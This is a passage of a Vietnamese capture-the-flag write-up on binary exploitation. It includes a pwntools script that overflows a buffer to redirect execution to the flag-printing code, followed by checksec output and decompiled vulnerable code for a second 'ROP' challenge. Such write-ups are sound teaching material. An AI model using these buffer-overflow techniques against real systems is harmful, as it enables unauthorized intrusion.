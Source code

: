 - vì chương trình lúc này toàn quyền được kiểm soát bởi ta nên chỉ cần overwrite đến đoạn cat flag , khỏi cần phải nhập thêm 1 đoạn :v


exp:

```python
#!/usr/bin/python3
from pwn import *

context.binary = exe = ELF('./chall',checksec=False)


p = process()


p.sendlineafter(b'Enter your choice: ',b'1')
p.sendlineafter(b'Enter quantum coordinates: ',b'a'*0x48 + p64(0x00000000004013D2))

p.interactive()
```

![here](/assets/images/ascis/1.png)


## ROP

- bài này mình học được khá nhiều điều :v

### overview


checksec: 


```cs
gef> checksec
----------------------------------------------------------------------------------------------------------------------------- Basic information -----------------------------------------------------------------------------------------------------------------------------
Canary                                  : Disabled
NX                                      : Enabled
PIE                                     : Disabled (0x3fe000)
RELRO                                   : Partial RELRO
Fortify                                 : Not found
```

- ta chỉ có mỗi hàm này ở bài , ở đây có 1 bug ```bof``` rất rõ ràng

```c
ssize_t vuln()
{
  __int16 buf[16]; // [rsp+0h] [rbp-20h] BYREF

  buf[0] = 0xC35F;
  return read(0, buf, 0x48uLL);
}
```
